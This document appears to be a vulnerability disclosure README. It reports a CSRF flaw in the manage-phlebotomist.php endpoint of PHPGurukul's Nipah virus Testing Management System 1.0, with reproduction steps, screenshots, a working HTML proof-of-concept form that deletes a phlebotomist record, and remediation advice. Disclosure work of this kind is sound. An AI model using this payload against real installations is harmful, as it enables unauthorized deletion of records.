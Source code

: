 ## Nipah virus (NiV) – Testing Management System


**Bug Description:**

A Cross Site Request Forgery (CSRF) vulnerability in "manage-phlebotomist.php" endpoint of PHPGurukul Nipah virus (NiV) – Testing Management System 1.0 allows attackers to delete phlebotomist via a crafted html request.

**Steps to Reproduce:** 

```
# Exploit Title: Cross Site Request Forgery (CSRF) vulnerability in PHPGurukul Nipah virus (NiV) – Testing Management System
# Date: 02-12-2023
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/nipah-virus-niv-testing-management-system-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE : 
```


To reproduce the attack:

1- Head to the http://localhost/nipah-tms/manage-phlebotomist.php endpoint 

<img width="824" alt="1" src="https://github.com/dhabaleshwar/niv_testing_csrf/assets/132373212/363cc8ec-ec4c-4dfc-aaa6-3170baae0f1b">


2- Here you can see the phlebotomist name as "CSRF Test". We'll try to delete that using the HTML code we have written.

<img width="465" alt="2" src="https://github.com/dhabaleshwar/niv_testing_csrf/assets/132373212/7722002d-1425-4873-8a0d-c3b262bc8d08">


```
<html>
  <!-- CSRF PoC - by Dhabaleshwar Das-->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/nipah-tms/manage-phlebotomist.php">
      <input type="hidden" name="pid" value="175" />
      <input type="hidden" name="action" value="delete" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


3- We'll then execute this HTML code and we successfully see that the record has been deleted successfully.

<img width="619" alt="3" src="https://github.com/dhabaleshwar/niv_testing_csrf/assets/132373212/73dd00be-758a-4578-9ce1-fdf7ccdc43de">


4- This shows that the endpoint "manage-phlebotomist.php" is vulnerable to CSRF attack.

<img width="855" alt="4" src="https://github.com/dhabaleshwar/niv_testing_csrf/assets/132373212/0afc31f0-8ef8-4f9f-86c2-769cffb4723e">




5- CSRF attacks can lead to unauthorized actions being performed on behalf of a user. An attacker could manipulate data within the application, leading to the creation, modification, or deletion of records.

**Remediation:** 

1- Implement anti-CSRF tokens (also known as CSRF tokens or synchronizer tokens) in web forms. These tokens are unique per session and are embedded in the HTML form. The server validates the token with each form submission, ensuring that the request is legitimate.

2- Set the SameSite attribute on cookies to control when they are sent with cross-origin requests. This helps mitigate the risk of CSRF by preventing the automatic inclusion of cookies in cross-site requests.
